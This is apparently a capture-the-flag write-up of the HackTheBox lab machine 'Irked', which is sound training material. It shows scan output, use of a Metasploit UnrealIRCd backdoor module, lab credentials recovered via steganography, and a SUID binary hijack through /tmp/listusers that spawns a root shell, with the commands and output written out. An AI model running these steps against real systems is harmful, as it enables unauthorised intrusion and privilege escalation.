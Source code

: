 ```yaml
---
categories:
- CTF
layout: post
media_subpath: /assets/posts/2019-04-27-irked-hackthebox
tags:
- hackthebox
- irc
- linux
- stego
title: Irked @ HackTheBox
---
```


This short write-up is about Irked, a rather easy machine on hackthebox featuring an irc backdoor, some steganography and a simple abuse of a custom binary.

## User Flag

The initial scan shows the following open ports:

```
22/tcp    open  tcpwrapped
80/tcp    open  http       Apache httpd 2.4.10 ((Debian))
111/tcp   open  rpcbind    2-4 (RPC #100000)
6697/tcp  open  irc        UnrealIRCd
8067/tcp  open  irc        UnrealIRCd (Admin email djmardov@irked.htb)
36129/tcp open  status     1 (RPC #100024)
65534/tcp open  irc        UnrealIRCd (Admin email djmardov@irked.htb)
Service Info: Host: irked.htb
```

We can see that the machine uses UnrealIRCd, which has a metasploit module available for some of its versions "unix/irc/unreal\_ircd\_3281\_backdoor". We run the module and quickly get a shell.

In the home folder of user "djmardov" inside "Documents" we find a file called ".backup" with the following content:

```
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

It turns out there is a picture on the open web port which contains some data hidden by steganography with the password "UPupDOWNdownLRlrBAbaSSss":

```
steghide -sf irked.jpeg
Kab6h+m+bbp2J:HG
```

With the password we can log into ssh as djmardov and grab the user flag.

## Root Flag

We start by looking for suid binaries with `find / -perm -u=s -type f 2>/dev/null` and eventually find "/usr/bin/viewuser". By executing the file we see that it expects a file:

```
djmardov@irked:~/Documents$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-04-24 15:50 (:0)
djmardov pts/2        2019-04-27 03:19 (10.10.16.66)
sh: 1: /tmp/listusers: not found
```

By creating the file as a simple shell script we obtain a root shell:

```
djmardov@irked:~/Documents$ echo '#!/bin/bash' > /tmp/listusers
djmardov@irked:~/Documents$ echo '/bin/bash' >> /tmp/listusers 
djmardov@irked:~/Documents$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-04-24 15:50 (:0)
djmardov pts/2        2019-04-27 03:19 (10.10.16.66)
root@irked:~/Documents# whoami
root
root@irked:~/Documents# wc -l /root/root.txt
1 /root/root.txt
```
